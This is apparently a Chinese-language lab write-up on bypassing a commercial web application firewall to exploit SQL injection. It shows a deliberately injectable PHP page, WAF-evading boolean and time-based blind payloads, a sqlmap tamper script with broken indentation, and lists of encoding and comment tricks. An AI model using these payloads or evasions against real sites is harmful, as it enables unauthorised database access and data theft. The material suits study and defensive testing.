





## 0x01 简单测试


列举一下常见的WAF：

* 安全狗
* 云锁
* 护卫神
* D盾
* 360网站卫士
* 百度云加速
* 阿里云云盾

环境：

* WAF：某锁最新版本3.1.6
* 系统:windows 2003
* WEB服务器：apache2.4.23
* Php版本：php5.4.45
* Mysql：5.5.53


PHP SQL注入页面代码：

```php
<?php

$link = mysql_connect('127.0.0.1','root','root')or die('Mysql Cannot Connect');

mysql_select_db('qq');
$id = isset($_REQUEST['id'])?$_REQUEST['id']:1;

$sql="select * from qq where id = ".$id;
echo $sql.'<hr>';
if(!$result = mysql_query($sql)){
    
     exit(mysql_error($link));
}
$data = mysql_fetch_assoc($result);
     
echo 'ID   = '.$data['id'].'<br>';
echo 'NAME = '.$data['name'].'<br>';
     
echo 'AGE  = '.$data['age'].'<br>';

?>
```

从上方代码可以看到ID并没有做过滤

那我们现在测试一下注入点是否可以注入到数据


现在我们开启某锁漏洞防护功能



下面我们开始研究bypass的方法

我们会根据以下几个知识点

* 等价替换
* 大小写替换
* 不常用条件
* 特殊符号
* 编码
* 注释


从上面图片数据可看到 某锁防护已经拦截了我这条语句

我们先测试简单的布尔值运算

* And 1=1 被拦截
* and '1'='1' 被拦截
* and "1"="1" 被拦截
* and '1'=1 被拦截
* and '1' 不拦截


意味着 某锁检测到有=符号 才给拦截的 如何绕过呢

这里我们要涉及到一个知识点

等价替换符号:

< > 等价于 BETWEEN

= 等价于 like

据我所知只有那么多 还有知道的多多提供

那我们可以把“=”替换成 like


从上图可看到简单布尔值运算完全绕过某锁了

那我们继续获取数据吧

## 0x02 继续深入


尝试了 联合查询注入 报错注入试了一遍还是不行

倾旋曾挖掘过一个x全狗的盲注

这时倾旋提出试试盲注呗

二话不说 上去就是干盲注



id=1 and '1' like IF(1 LiKe 1,1,2)

上方信息可看出使用了大小写替换而且通过if做了一次判断

If()函数：if(条件,如果真返回的值,如果假返回的值)

那我们继续往下

这时我们要讲一下等价函数

Hex() bin() 等价于 ascii()

Sleep() 等价于 benchmark()

Mid()substring() 等价于 substr()

@@user 等价于 User()

@@Version 等价于 version()

根据这些函数我们先来获取mysql root 用户的第一个首字母吧

基于时间的盲注测试

我的mysql是默认账号密码也就是第一个首字母是r

我们查一查r的ASCII码为114



现在我们构造语句：

```

And '1' like IF(ascii(substr(user(),1,1)) LiKe 113,1,sleep(5))
```

这段语句简单解释下，大牛直接跳过。

Substr()截取user()用户名第一位 为r

Ascii(‘r’) 将r 转换成ascii码

If()判断114 Like(=) 113 如果等于值为1如果不等于Sleep(延时)5秒



可看到数据没有查出来 页面延时了5秒才加载出来

最后答案 114不等于113

剩下盲注出你想要的数据就要慢慢去测试了

最终Payload:

```
and '1' like if(ascii(substr(user(),1,1)) like 113,1,sleep(5))

```

能遇到某锁不拦截这些函数感觉也挺奇怪的

下面讲一下如果拦截我们应该使用什么方法绕过呢

这里只提供知识点没有实战

## 0x03 自动化Bypass（扩展）

这里扩充一下编写tamper bypass脚本

先直接使用SQLmap进行测试（毋庸置疑，肯定失败）：


在经过大量测试以后，我们定位特征，写出了bypass脚本：

```python
#!/usr/bin/env python
import re
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def tamper(payload):
    if payload:
              pass
              payload =
payload.replace("SLEEP(5)","\"0\" LikE Sleep(5)")
       payload=payload.replace("","/*FFFFFFFFFFFFFFFFFFFFFFFFF*/")
              p = re.compile(r'(\d+)=')
              payload= p.sub(r"'\1'LikE ", payload)
return payload
```
测试结果：



## 0x04 小总结

等价替换

前面已经讲解了 等价函数和等价符号

大小写替换 想必这个大家应该都知道 把字母的大写小写替换下就行了例如 SeLeCt LiKe UnIoN

不常用函数
一般经常在报错注入中使用

例如floor(),extractvalue(),updatexml(),exp() 这些 原因是因为waf 可能没考虑到这些函数的危害

特殊符号

例如 `“+”,“-”,“@”,“！”,“~”`等等很多的特殊符号


比如 “+” select+password+from+mysql.user 相当于是一个空格的作用

编码
URL编码

普通的URL编码就不再过多叙述，但是在有些数据传输过程中可以采用双重URL编码测试

Unicode编码

个别特殊符号：

单引号：

%u0027、%u02b9、%u02bc%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7
空格：

%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0

左括号：

%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8

右括号：

%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9

十六进制编码

在有的情况下通过注入点写shell的时候，我们一般把shell code转换为十六进制，其一因为数据库自动转换，其二是因为可以逃避WAF针对特殊字符拦截。

注释

某些情况下，针对不同的数据库采用不同的注释混淆，也可以bypass

普通注释 `/**/、-- 、# ...`

内联注释 `/*!*/`


